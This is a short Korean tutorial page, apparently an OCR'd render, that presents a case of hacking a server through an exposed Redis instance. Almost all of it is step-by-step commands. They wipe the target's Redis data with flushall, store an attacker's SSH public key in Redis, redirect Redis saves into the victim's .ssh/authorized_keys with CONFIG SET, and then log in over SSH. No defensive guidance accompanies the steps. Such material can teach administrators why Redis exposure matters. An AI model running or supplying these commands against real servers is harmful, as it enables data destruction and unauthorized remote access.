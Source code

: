 ## 레디스를 이용한 해킹 사례

### 1) 접근 가능 여부 확인

```bash
[centos@ServerB] $ telnet 203.0.113.1 6379
```

### 2) SSH Key 생성

```bash
[centos@ServerB] $ ssh-keygen -t rsa
Enter file in which to save the key : ./id_rsa
...
Your public key has been saved in ./id_rsa.pub.
```

### 3) 레디스 내 데이터 저장을 위해 사용될 파일 생성

```bash
[centos@ServerB] $ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

### 4) 레디스 데이터 전체 삭제 및 (3) 파일 내 데이터 저장

```bash
[centos@ServerB] $ redis-cli -h 203.0.113.1 echo flushall # 데이터 전체 삭제
[centos@ServerB] $ cat key.txt | redis-cli -h 203.0.113.1 -x set key # key라는 key에 데이터 저장
```

### 5) 공격 대상 서버의 레디스 데이터 저장 경로/파일명 변경

```bash
[centos@ServerB] $ redis -h 203.0.113.1 -p 6379
> CONFIG SET dir /home/centos/.ssh # 데이터 저장 대상 경로 변경
OK

> CONFIG GET dir 
1) "dir"
2) "/home/centos/.ssh"

> CONFIG SET dbfilename authorized_keys # 데이터 저장 대상 파일명 변경
OK

> SAVE
OK
```

- `/home/centos/.ssh/authorized_keys` : SSH를 통해 접속 가능한 Key들이 저장되어 있는 파일
- 위의 명령어를 통해 (4)에서 저장된 key가 위 경로에 저장됨

### 6) 공격 대상 서버 접속

```bash
**[centos@ServerB] $ ssh -i id_rsa centos@203.0.113.1**
[centos@ServerA] $ 
```
